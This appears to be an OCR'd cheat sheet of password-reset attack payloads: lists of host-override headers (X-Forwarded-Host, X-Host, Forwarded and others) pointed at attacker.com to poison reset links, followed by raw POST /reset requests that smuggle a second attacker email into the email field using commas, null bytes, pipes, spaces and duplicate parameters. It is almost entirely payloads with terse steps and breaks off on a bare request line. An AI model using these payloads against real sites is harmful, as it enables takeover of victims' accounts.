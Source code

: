 ```jsx
X-Forwarded-Host:  attacker.com
X-Originating-IP: attacker.com
X-Remote-Addr: attacker.com
X-Remote-IP: attacker.com
X-Client-IP: attacker.com
****
GET https://vulnerable-website.com/ HTTP/1.1
Host: evil-website.com

X-Forwarded-For: attacker.com
X-Forwarded-Host: attacker.com
X-Forwarded-Proto headers: attacker.com
Host: attacker.com (duplicate this header)
X-Host: attacker.com
X-Forwarded-Server: attacker.com
X-HTTP-Host-Override: attacker.com
Forwarded: attacker.com

X-Forwarded-For: attacker.com
X-Forwarded-Host:  attacker.com
X-Originating-IP: attacker.com
X-Remote-Addr: attacker.com
X-Remote-IP: attacker.com
X-Client-IP: attacker.com
```

1. send token with reset password request
2. change vicitm email to hacker email when resend password reset token
3. Using separator in value of the parameter

```jsx
POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com,hacker@mail.com

POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%00hacker@mail.com

POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com|hacker@mail.com

POST /reset HTTP/1.1
Host: target.com
...

email=victim@mail.com%20hacker@mail.com

POST /resetPassword
[...]
email=victim@email.com&email=attacker@email.com

POST /resetPassword
[...]
email=victim@email.com%20email=attacker@email.com

POST /resetPassword
```